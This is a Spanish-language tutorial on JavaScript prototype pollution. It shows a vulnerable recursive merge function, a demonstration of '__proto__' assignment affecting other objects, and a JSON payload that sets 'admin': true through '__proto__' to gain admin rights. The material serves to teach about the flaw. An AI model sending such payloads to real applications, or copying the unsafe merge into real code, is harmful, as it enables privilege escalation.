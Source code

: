 ### Prototype Pollution

Prototype Pollution es una vulnerabilidad que afecta a ciertos lenguajes de programación como JavaScript, permitiendo la modificación no autorizada del prototipo de objetos. Esto puede llevar a comportamientos inesperados o incluso a vulnerabilidades de seguridad en aplicaciones web y otros sistemas basados en JavaScript. Aquí hay algunos ejemplos ilustrativos de cómo se puede explotar esta vulnerabilidad:

#### 1. Aprovechamiento del merge

El siguiente código muestra cómo un atacante puede aprovechar la función de fusión (merge) para manipular el objeto de destino y asignarle propiedades no deseadas:

```javascript
var merge = function(target, source) {
  for(var attr in source) {
    if(typeof(target[attr]) === "object" && typeof(source[attr]) === "object") {
      merge(target[attr], source[attr]);
    } else {
      target[attr] = source[attr];
    }
  }
  return target;
};

var user = {"name": "Juan", "age": 55}
var admin = {"name": "Ernesto", "age": 89, "isAdmin": true}

var body = JSON.parse('{"email": "juan@juan.com", "msg": "Esto es una prueba", "__proto__":{"isAdmin": true}}')

console.log(merge({"ipAddress": "127.0.0.1"}, body))

console.log({}.isAdmin) // Devuelve true, el objeto vacío ha sido contaminado
```

#### 2. Ejemplo gráfico de Prototype Pollution

El siguiente ejemplo muestra cómo un atacante puede modificar el prototipo de un objeto para afectar otros objetos:

```javascript
var user = {}
var admin = {}

user.__proto__.name = "Juan"

var jose = {}

console.log(jose.name) // Devuelve "Juan", el prototipo ha sido modificado
console.log(admin.name) // Devuelve "Juan", afecta a otros objetos con el mismo prototipo
```

#### 3. Ser admin usando la técnica de Prototype Pollution

```json
{
	"email": "test@test.com",
	"msg": "Esto es una prueba",
	"__proto__":{
		"admin":true
	}
}
```

En este ejemplo de datos JSON, se puede observar cómo un atacante podría manipular los datos para establecerse como administrador simplemente agregando la propiedad `"admin": true` al prototipo del objeto. Cuando este objeto se utiliza en la lógica de la aplicación, el atacante obtendría privilegios de administrador de manera no autorizada.

Para obtener más información sobre la Prototype Pollution y su impacto, se puede consultar el artículo [What is Prototype Pollution and Why is it Such a Big Deal](https://medium.com/node-modules/what-is-prototype-pollution-and-why-is-it-such-a-big-deal-2dd8d89a93c).